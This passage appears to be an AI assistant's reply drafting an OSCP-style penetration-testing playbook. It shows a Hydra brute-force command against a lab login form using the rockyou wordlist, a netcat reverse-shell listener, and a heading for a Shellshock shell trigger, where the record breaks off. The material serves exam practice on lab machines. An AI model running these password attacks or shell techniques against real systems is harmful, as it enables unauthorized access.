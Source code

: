 ```bash
mkdir -p scans/10.10.10.56/cracking

# HTTP POST (find failure string in Burp)
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.56 \
  http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid" \
  -f -V -I -t 4 \
  -o scans/10.10.10.56/cracking/http_post.txt
```

⚠️ **Mistakes & fixes:**

* ❌ Not checking **fail string** → Hydra runs uselessly.
  ✅ Fix: My sample includes `F=Invalid` placeholder — always pull fail text from Burp.
* ❌ Running Hydra endlessly → lockouts & wasted hours.
  ✅ Fix: My command uses `-f` to stop after first hit, plus explicit timeboxing advice.
* ❌ Forgetting to reuse creds on **other services** (SMB/SSH/FTP).
  ✅ Fix: Notes explicitly say: *test creds everywhere*.

---
You’re absolutely right — my last message accidentally re-expanded Part 1 + 2 instead of continuing with the **next section**. Thanks for pointing it out. Let’s now properly finish the playbook with **Part 4: Reverse Shells, TTY Stabilization, Quick Privesc, Reporting, and Common Mistakes** — in **GitHub-ready Markdown**, step-by-step, beginner-friendly, with **independently executable commands** and **explicit mistake→fix notes** based on your research docs.

---

````markdown
# Part 4 — Exploitation → Shells, TTY, Privesc & Reporting

---

## 1) Reverse Shells (Get a Foothold)

**What it is:**  
A *reverse shell* makes the target connect back to your attack box, giving you a command line on the victim.  
**Why it matters:** Almost every OSCP web box ends with executing a reverse shell (e.g., via LFI+log poison, upload, or Shellshock).

### 1.1 Start listener first
```bash
# 🟦 T1 (Kali listener)
rlwrap -cAr nc -lvnp 4444
````

* **Why:** You must be “listening” before you trigger the exploit.
* **Mistake (exam reports):** Students trigger exploit first and never catch the shell.
  ✅ Fix: Playbook explicitly shows **listener first, trigger second**.

---

### 1.2 Trigger Shellshock → Reverse Shell
